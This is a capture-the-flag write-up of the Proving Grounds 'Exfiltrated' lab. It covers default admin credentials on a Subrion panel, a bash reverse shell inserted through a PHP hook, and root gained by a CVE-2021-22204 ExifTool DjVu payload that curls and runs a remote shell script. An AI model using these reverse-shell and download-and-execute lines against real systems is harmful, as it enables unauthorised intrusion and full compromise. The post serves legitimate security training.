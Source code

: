 ```yaml
---
title: "Proving grounds Practice: Exfiltrated"
layout: post
date: 2023-08-26 06:00
categories: writeup
---
```


Proving grounds Practice - Exfiltrated CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

## PORT: 80 | Web

http://exfiltrated.offsec/

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/admin-dashboard.png)

### Admin Dashboard

http://exfiltrated.offsec/panel/

### Password

admin:admin

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/admin-dashboard2.png)

Navigate to System->Hooks-> Edit sitemapGeneration

Add the below reverse shell code and click save.

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/1234 0>&1'");
```
![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/shell1.png)

Trigger shell by clicking the generate sitemap menu.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/shell2.png)

**Initial Foothold obtained**

## Privilege Escalation

Check for cron jobs

```sh
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *	* * *	root	bash /opt/image-exif.sh
#
```

Cronjob running a script `/opt/image-exif.sh`

```sh
cat /opt/image-exif.sh
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata 

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename; 
do 
    exiftool "$IMAGES/$filename" >> $LOGFILE 
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

It appears to be there is a vulnerability for ExifTool versions 7.44 and above [CVE-2021-22204](https://nvd.nist.gov/vuln/detail/CVE-2021-22204).

Install `djvulibre-bin`.

As per the recon the cron job has been running the script as root user.

Create a reverse shell script `shell.sh`.

```sh
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/<IP>/4444 0>&1'
```

Create a file as exploit and add the below content.

```sh
(metadata "\c${system ('curl http://<attacker_IP>:<PORT>/shell.sh | bash')};")
```

The attacker IP and PORT is specified on the above to download the `shell.sh` file into the attacking machine to obtain the root shell.

Now create djvu file and rename it to `jpg`.

```sh
djvumake exploit.djvu INFO=0,0 BGjp=/dev/null ANTa=exploit

cp exploit.djvu exploit.jpg
```

Now curl to download the `exploit.jpg` file into the attacking machine's uploads folder `/var/www/html/subrion/uploads`.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/transfer.png)

Once the `exploit.jpg` is downloaded into the uploads folder the cronjob runs the script, and when the exiftool reads the metadata from the `exploit.jpg` file it executes the command we have binded in the image.

Then it downloads the reverse shell script `shell.sh` from the attacker's machine and runs it as root.

![img](/assets/images/CTF/Proving_Grounds/Exfiltrated/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).